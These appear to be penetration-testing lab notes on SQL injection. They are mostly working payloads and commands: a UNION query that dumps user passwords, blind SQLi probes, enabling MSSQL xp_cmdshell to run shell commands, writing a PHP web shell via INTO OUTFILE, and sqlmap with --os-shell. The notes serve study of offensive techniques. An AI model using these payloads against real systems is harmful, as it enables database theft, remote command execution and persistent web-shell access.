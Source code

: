 ```mysql
' UNION SELECT null, username, password, description, null FROM users -- //
```
### Blind SQLi
Use either `boolean-based` or `time-based` logic.
```mysql
' AND 1=1 -- //
' AND IF (1=1, sleep(3),'false') -- //
```
Observe the time. 3 seconds -> success
It's time-consuming, better to use tools.
### Manual Code Execution
Connect to mssql.
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
Enable `xp_cmdshell` feature:
```mysql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
Then execute Windows shell
```mysql
EXECUTE xp_cmdshell 'whoami';
```
**Upgrade our SQL shell to a more standard reverse shell** By `SELECT ... INTO OUTFILE`
Include a single PHP line into the first column and save it as **webshell.php** in a writable web folder:
```mysql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The php code file that i upload:
```php
<? system($_REQUEST['cmd']); ?>
```
Then we can access it -> accessing `{url}/tmp/webshell.php?cmd=whoami`
### SQLMAP
`-p`:parameter,`-u`:url,`--batch`:automate `--dump` , `-T`:table, `--threads`
```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```
sqlmap is too noicy.  Not the first priority.
`--os-interactive`: full interactive shell.
intercept the `POST request` via Burp -> copy and save it as a local text file.
```bash
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
`-r`:request

`--sql-query "{query}"`
